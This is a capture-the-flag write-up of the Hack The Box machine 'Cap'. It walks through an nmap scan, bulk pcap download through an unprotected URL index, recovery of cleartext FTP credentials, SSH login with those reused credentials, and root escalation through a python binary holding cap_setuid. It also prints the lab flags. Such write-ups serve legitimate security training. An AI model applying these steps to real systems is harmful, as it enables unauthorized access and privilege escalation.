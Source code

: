 ```yaml
---
layout: post
title: 'Hack The Box Writeup: Cap'
date: '2021-07-29 15:12:11 -0400'
categories: ctf
tags: htb web privesc network
---
```


![Machine avatar](https://www.hackthebox.eu/storage/avatars/70ea3357a2d090af11a0953ec8717e90.png)

## Port Scan
First run an nmap scan with service enumeration, default scripts, and OS identification.
```bash
nmap 10.10.10.245 -sV -sC -O
```
Which gives the following output:
```
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 fa:80:a9:b2:ca:3b:88:69:a4:28:9e:39:0d:27:d5:75 (RSA)
|   256 96:d8:f8:e3:e8:f7:71:36:c5:49:d5:9d:b6:a4:c9:0c (ECDSA)
|_  256 3f:d0:ff:91:eb:3b:f6:e1:9f:2e:8d:de:b3:de:b2:18 (ED25519)
80/tcp open  http    gunicorn
| fingerprint-strings: 
...
|_http-server-header: gunicorn
|_http-title: Security Dashboard
...
Network Distance: 2 hops
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

There are three open ports at this address. An FTP server on port 21, SSH server on port 22, and   an HTTP server on port 80. The HTTP server is running Gunicorn which is Python web server similar to Flask.

## Web Enumeration
Lets hop into a browser and check out the web server. Visiting it, we see there are 4 tabs we can visit.

> 10.10.10.245

![tab 1](/assets/img/tab1.jpg)
*A visual representation of security events, failed login attempts, and port scans over the last 24 hours at this ip address.*
> 10.10.10.245/data/0

![tab 2](/assets/img/tab2.jpg)
*Pressing the second tab for the security snapshot goes to /capture. This in turn redirects to /data/ followed by a number. We can manually change this to 0 or any other number. On this page we can also download a pcap file corresponding to this number.*

Presumably we will need to investigate some of these pcap files with Wireshark as the name of the box is "Cap". Also note that pressing download redirects to /download/0. This way we can download pcap files directly from a url including indices which are missing data pages like at /data/9.
> 10.10.10.245/ip

![tab 3](/assets/img/tab3.jpg)
*The output of the ip shell command at 10.10.10.245*
> 10.10.10.245/netstat

![tab 4](/assets/img/tab4.jpg)
*The output of the netstat shell command at 10.10.10.245*

After investigation, it seems that the incrementing numbers after /data/ represent portions of the network log in chronological order. Lets start at 10.10.10.245/download/0 and download 0.pcap all the way to 10.10.10.245/download/25 for 25.pcap so we can read any part of the log with Wireshark. This can be done with this simple curl one liner:

```bash
curl http://10.10.10.245/download/[0-25] -O
```

## Packet Analysis
First, let's open 0.pcap from Wireshark.
Sorting the packets by protocol and examining the FTP traffic we can immediately see an unencrypted FTP login.
![Wireshark log](/assets/img/wire0.jpg)
From this traffic we get the following username and password to login to the FTP server.

> USER nathan
> PASS Buck3tH4TF0RM3!

We can also see that this same user retrieved a file named notes.txt before the log ends.
## FTP Enumeration
Login to the ftp server with

```bash
ftp 10.10.10.245
```

Then entering nathan's username and password we succesfully logged in! In nathan's home directory there is a file called user.txt which holds the first flag for HTB.

> f8ee4208619dd70ee616d7cd81628906

To get a shell, lets try to connect to ssh server that is running with the same credentials

```bash 
ssh nathan@10.10.10.245
```
```
    ...
    Welcome to Ubuntu 20.04.2 LTS (GNU/Linux 5.4.0-80-generic x86_64)
    ...
    nathan@cap:~$ ls
    linpeas.sh  ls.txt  snap  user.txt  user2.txt
```
Somebody else conveniently already downloaded linpeas.sh so we can do linux enumeration without having to scp that.
## Linux Privilege Escalation
To get linpeas.sh if it is not already on this system, run the scp command using nathan's account then ssh in on port 22.

```bash
./linpeas.sh
```
  
One interesting line in the enumeration results is:

> /usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip

It seems that this python binary has the capability to set the user id to root. We can do this by running python code which sets the uid then executes a new shell.

```bash
/usr/bin/python3.8 -c 'import os; os.setuid(0); os.system("/bin/bash")'
```

And now we are root!
The last flag is located at /root/root.txt
 
```bash
cat root.txt
```

> e516cb179c03e3c916f04f2acef5b4bc

With that, we have pwned this machine
